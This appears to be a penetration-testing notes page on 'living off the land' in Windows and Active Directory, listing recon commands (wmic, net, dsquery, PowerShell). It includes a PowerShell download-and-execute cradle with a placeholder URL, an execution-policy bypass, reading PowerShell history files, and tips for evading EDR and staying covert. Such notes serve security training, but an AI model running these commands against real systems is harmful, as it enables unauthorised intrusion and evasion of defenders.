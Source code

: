 # Living Off the Land

## Introduction

* "Living off the land" can be <mark style="color:yellow;">defined as using tools native to Windows and AD</mark>
* This can also be a much more <mark style="color:yellow;">stealthy approach</mark>!

## Environment Commands for Host & Network Recon

```
hostname

[System.Environment]::OSVersion.Version

wmic qfe get Caption,Description,HotFixID,InstalledOn

ipconfig /all

set %USERDOMAIN%

set %logonserver%
```

## Harnessing PowerShell

### Quick Checks

```
Get-Module

Get-ExecutionPolicy -List

Set-ExecutionPolicy Bypass -Scope Process

Get-Content C:\Users\<USERNAME>\AppData\Roaming\Microsoft\Windows\Powershell\PSReadline\ConsoleHost_history.txt

Get-ChildItem Env: | ft Key,Value

powershell -nop -c "iex(New-Object Net.WebClient).DownloadString('URL to download the file from'); <follow-on commands>"
```

## Checking Defenses

### Firewall Checks

```
netsh advfirewall show allprofiles
```

### Windows Defender Check (from CMD.exe)

```
sc query windefend
```

### Get-MpComputerStatus

```
Get-MpComputerStatus
```

### Am I Alone?

* <mark style="color:yellow;">This is very useful for finding out if you are the only one logged in or not</mark>
* This is useful because your actions can be detected by others when moving covertly

```
qwinsta
```

## Network Information

```
arp -a 

ipconfig /all

route print

netsh advfirewall show state
```

## Windows Management Instrumentation (WMI)

* <mark style="color:yellow;">A.K.A. WMI is a scripting engine that is widely used within Windows enterprise environments to retrieve information and to run administrative tasks on local and remote hosts</mark>

### WMI Checks

<mark style="color:yellow;">Prints the patch level and description of the Hotfixes applied:</mark>

```
wmic qfe get Caption,Description,HotFixID,InstalledOn
```

<mark style="color:yellow;">Displays basic host information to include any attributes within the list:</mark>

```
wmic computersystem get Name,Domain,Manufacturer,Model,Username,Roles /format:List
```

<mark style="color:yellow;">A listing of all processes on host:</mark>

```
wmic process list /format:list
```

<mark style="color:yellow;">Displays information about the Domain and Domain Controllers:</mark>

```
wmic ntdomain list /format:list
```

<mark style="color:yellow;">Displays information about all local accounts and any domain accounts that have logged into the device:</mark>

```
wmic useraccount list /format:list
```

<mark style="color:yellow;">Information about all local groups:</mark>

```
wmic group list /format:list
```

<mark style="color:yellow;">Dumps information about any system accounts that are being used as service accounts:</mark>

```
wmic sysaccount list /format:list
```

### WMI Cheat Sheet

{% embed url="https://gist.github.com/xorrior/67ee741af08cb1fc86511047550cdaf4" %}

## Net Commands

* These commands can be extremely beneficial to use when attempting to enumerate information from the domain
* <mark style="color:yellow;">These commands can be used to query the local host as well as remote hosts</mark>

<mark style="color:yellow;">With Net, we can list information such as</mark>:&#x20;

* Local and domain users
* Groups
* Hosts
* Specific users in groups
* Domain Controllers
* Password requirements

<mark style="color:red;">WARNING</mark>: net.exe commands are often monitored by EDR solutions and can quickly reveal compromise!

<figure><img src="../../.gitbook/assets/image (1) (1) (2).png" alt=""><figcaption></figcaption></figure>

### Net Commands Trick

* <mark style="color:yellow;">Use net1 instead of net to execute the same functions without setting off alarms to defenders!</mark>

## DSQuery

Obtain a list of disabled users with administrative access and append the -attr to display the description associated with that user:&#x20;

```
dsquery * -filter "(&(objectCategory=person)(objectClass=user)(userAccountControl:1.2.840.113556.1.4.803:=2))"  -attr description
```

{% embed url="https://social.technet.microsoft.com/wiki/contents/articles/2195.active-directory-dsquery-commands.aspx" %}
